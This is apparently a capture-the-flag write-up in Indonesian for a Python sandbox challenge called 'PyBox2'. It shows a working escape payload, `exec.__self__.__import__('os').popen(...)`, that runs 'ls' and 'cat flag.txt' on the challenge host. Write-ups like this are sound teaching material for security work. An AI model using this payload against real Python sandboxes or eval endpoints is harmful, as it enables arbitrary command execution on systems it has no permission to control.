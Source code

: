 <H1>PyBox2</H1>
<H5>Tools: Terminal, bpython</H5>
Untuk menyelesaikan masalah ini kita harus mempelejari atau mencari tahu method atau attributes dari class compile atau exec. Seperti yang sudah di berikan di hint kita bisa menggunakan 

```python
compile.__self__
```
atau

```python
exec.__self__
```
dengan menggunakan bpython sebuah command lines tools terminal untuk python interactive, saya mencoba untuk mengetahui method dati class `exec`. Kita bisa mencari tahu dengan function `dir()`. seperti ini
```python
>>> dir(exec.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'C
onnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError'
, 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryEr
ror', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'Ove
rflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration
', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeErro
r', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader_
_', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'com
plex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'hel
p', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'pri
nt', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```
dari banyaknya method dari `exec.__self__` saya memilih untuk memakai yang paling sering saya gunakan dalam ctf yaitu `__import__`. dengan begitu payload pertama akan menjadi seperti ini
```python
exec.__self__.__import__("os").popen("ls").read()
```
payload di atas bisa di baca juga seperti ini
```python
import os
#code dibawah akan execute ls dan menjadikan output nya string
os.popen("ls").read
```
output dari code diatas adalah
```bash
Dockerfile
README.md
flag.txt
logo
main.py
makefile
payload
solve.py
```
dengan begitu kita tinggal execute `cat` untuk membaca flag.txt
```python
exec.__self__.__import__("os").popen("cat flag.txt").read()
```
dengan output:
```
TCP1P{******************************_get__import__}
```
note:* hanya untuk menutupi full flag

opini: menurut saya gunanya `__self__` adalah untuk meng-akses class yang ada di dalam scope mirip penggunaan `this` dalam javascript
